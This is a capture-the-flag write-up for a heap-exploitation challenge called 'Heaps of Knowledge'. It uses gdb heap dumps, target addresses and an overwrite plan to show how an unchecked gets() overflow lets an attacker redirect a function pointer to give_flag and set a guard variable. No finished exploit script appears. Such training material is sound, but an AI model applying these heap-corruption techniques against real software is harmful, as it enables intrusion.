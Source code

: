 #Heaps of Knowledge - 400 Points

We were given a binary. We run it to see what it does.
It prompts you for a book name, then there are three options:
1) Create a chapter
2) Delete a chapter
3) Publish

```
Please enter the title of the book you would like to write: AAAA
You have started writing the book 'AAAA'. Please select an option to get started!
1. Edit chapter
2. Delete chapter
3. Publish book
```

After experimenting with this program, you find out that you can only create a chapter starting from 1, 2, 3 and so on. Also you can only delete an existing chapter otherwise the program will exit. Then, publish prints the title, and the content of each chapter. Then, if you edit an existing chapter, it changes it's content.

Because this problem is called Heaps of Knowledge, we can be fairly certain this will be a heap exploit.
We can run this in gdb, enter a random book title, let's say "AAAA" then view our heap using:

>info proc mappings
>x/50wx 0x804c000

```
(gdb) x/50wx 0x804c000
0x804c000:      0x00000000      0x00000011      0x0804c018      0x00000000
0x804c010:      0x00000000      0x00000011      0x41414141      0x00000000
0x804c020:      0x00000000      0x00020fe1      0x00000000      0x00000000
0x804c030:      0x00000000      0x00000000      0x00000000      0x00000000
```

We can see that the first section consists of an address to the actual title of the book, contained in another section. Let's do the same after adding a couple of chapters. Let's set chapter 1's name to BBBB, and it's content to CCCC while chapter 2's name to DDDD and it's content to EEEE

```
0x804c000:      0x00000000      0x00000011      0x0804c018      0x00000002
0x804c010:      0x0804c028      0x00000011      0x41414141      0x00000000
0x804c020:      0x00000000      0x00000019      0x00000000      0x0804c060
0x804c030:      0x0804c040      0x0804c050      0x0804872f      0x00000011
0x804c040:      0x42424242      0x0000000a      0x00000000      0x00000011
0x804c050:      0x43434343      0x0000000a      0x00000000      0x00000019
0x804c060:      0x0804c028      0x00000000      0x0804c078      0x0804c088
0x804c070:      0x0804872f      0x00000011      0x44444444      0x0000000a
0x804c080:      0x00000000      0x00000011      0x45454545      0x0000000a
0x804c090:      0x00000000      0x00020f71      0x00000000      0x00000000
```

We can see that this is very siilar in structure. The section containing addresses for chapters, however, contains three addresses: the chapter's name, chapter's content, and huh? what is the last one? We can quickly view it using

>x 0x0804872f

```
0x804872f <print_chapter>:      0x83e58955
```

We see that this is an address pointing to the function to print this chapter. From this knowledge, we can surmise that the edit chapter edits content at the chapter's content's address (for chapter 1 in this case, it is 0x0804c050). Then the publish function most likely calls the function at the print chapter address stored on the heap. (for chapter 1 it is 0x0804872f).

Next, we look into the disassembly of the binary. I used IDA to disassemble this binary.

![](https://github.com/VoidMercy/EasyCTF-Writeups-2017/blob/master/binexploit/Heaps-of-Knowledge/screenshot1.PNG)

It uses gets() to get the content of the chapter text! This means we can overflow the heap because gets does not check the length of the string you give it. Using this, we can pretty much construct the heap to whatever we want it to look like.
We then see a give_flag function as look into it. It reads the flag file and prints it's contents. However, there's a catch

~[](https://github.com/VoidMercy/EasyCTF-Writeups-2017/blob/master/binexploit/Heaps-of-Knowledge/image.png)

success needs to be set to 0x13371337 in order for the flag file to be read. And we see that success is set to just 0x1337 in default. However, we can use the edit chapter content function of the program to change the address of chapter content and write to that address. Then if we set the address of print chapter to give_flag, publishing the book should give us our flag.

I used gdb to get the address of give_flag, and IDA for success:

>p give_flag

```
$2 = {<text variable, no debug info>} 0x804879a <give_flag>
```

and success = 0x0804b054

Now I used gdb to create two chapters, and manually edit the heap to what I want it to look like using:

>set {int}address=value

Here is the state of the heap:

```
0x804c000:      0x00000000      0x00000011      0x0804c018      0x00000002
0x804c010:      0x0804c028      0x00000011      0x41414141      0x42424242
0x804c020:      0x00000000      0x00000019      0x00000000      0x0804c060
0x804c030:      0x0804c040      0x0804c050      0x0804879a <give_flag> 0x00000011
0x804c040:      0x43434343      0x0000000a      0x00000000      0x00000011
0x804c050:      0x44444444      0x0000000a      0x00000000      0x00000019
0x804c060:      0x0804c028      0x00000000      0x0804c078      0x0804b054 <success>
0x804c070:      0x0804872f      0x00000011      0x45454545      0x0000000a
0x804c080:      0x00000000      0x00000011      0x46464646      0x0000000a
0x804c090:      0x00000000      0x00020f71      0x00000000      0x00000000
0x804c0a0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0c0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0d0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0e0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0f0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c100:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c110:      0x00000000      0x00000000
```

Then after editing the contents of chapter 2 to 0x13371337 and publishing, the contents of flag.txt was successfully printed.


Now we know the requirements for the exploit:
1) Change address of chapter content to address of success
2) Edit that chapter's content to 0x13371337
3) Change address of print chapter to address of give_flag
4) Publish

Now, we just have to construct an exploit.
